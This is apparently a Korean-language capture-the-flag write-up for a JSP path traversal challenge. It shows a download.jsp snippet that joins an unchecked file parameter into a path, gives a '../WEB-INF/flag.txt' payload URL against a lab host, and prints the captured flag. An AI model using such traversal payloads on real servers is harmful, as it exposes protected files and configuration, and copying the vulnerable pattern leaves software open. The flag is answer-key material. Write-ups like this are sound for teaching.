

# JSP - Path Traversal

## 문제 설명

`download.jsp?file=파일명` 형태로 문서를 다운로드하는 기능. 정상적으로는 `report1.txt` 같은 지정된 문서만 받도록 의도되어 있으나, flag는 웹 애플리케이션 루트의 `WEB-INF/flag.txt`에 존재한다.

## 분석

- `download.jsp`는 `file` 파라미터 값을 별도의 검증(화이트리스트, 경로 정규화, `../` 필터링) 없이 그대로 파일 경로에 이어붙이는 것으로 추정된다.

```java
String file = request.getParameter("file");
File f = new File(baseDir + "/" + file);
```

- `file` 파라미터에 `../`를 삽입하면 `baseDir` 상위 디렉토리로 이동할 수 있고, `baseDir`이 `WEB-INF`와 같은 깊이(웹 애플리케이션 루트 바로 아래)에 위치해 있다면 단 한 단계(`../`)만으로도 `WEB-INF` 디렉토리에 도달한다.

## 익스플로잇

### Path Traversal 페이로드

```
http://edu.arang.kr:9603/download.jsp?file=../WEB-INF/flag.txt
```

`file` 파라미터의 `../`로 `baseDir`을 한 단계 벗어나 `WEB-INF/flag.txt`에 접근, 검증 없이 그대로 파일 내용이 응답된다.



## 플래그

```
flag{ccc3d3e3ba8d58dbf59c}
```
